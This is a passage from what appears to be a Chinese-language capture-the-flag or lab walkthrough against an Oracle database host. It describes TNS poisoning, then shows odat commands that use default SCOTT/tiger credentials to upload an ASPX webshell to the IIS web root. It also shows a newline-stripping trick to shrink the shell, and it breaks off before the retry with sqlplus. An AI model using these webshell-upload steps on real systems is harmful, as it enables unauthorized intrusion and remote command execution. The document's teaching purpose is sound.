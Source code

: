 
通过扫描结果可以发现目标存在tns投毒漏洞，与此同时我们还可以完成上传、下载文件等操作

> TNS投毒漏洞：TNS投毒漏洞是针对Oracle数据库网络通信的一个安全漏洞。TNS（Transparent Network Substrate）是Oracle数据库用来实现网络连接的协议。TNS投毒漏洞的存在使得攻击者能够通过恶意操作网络流量来拦截和篡改数据库客户端和服务器之间的通信，从而执行中间人攻击（MITM），获取敏感数据或执行其他恶意操作。

## 上传木马

由于80端口为 IIS 的默认界面，那么猜测网站目录则为c:\inetpub\wwwroot，将asp版的 webshell 复制到当前目录下

```
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

使用 odat 上传 webshell

```
odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot mac.aspx cmdasp.aspx
```

![截图](604c96cb4f01e33c088a8f92a845e770.png)

但是访问后返回404.

![截图](798a3a07a80d1774c107a17a67247ead.png)

猜测可能原因是 webshell 超过了其大小限制，我们可将其压缩

```
cat cmdasp.aspx | tr -d '\n'
```

![截图](ff43cbb227cf08c3a9dd41dfee7de48c.png)

压缩后再次上传，使用 sqlplus 进行上传
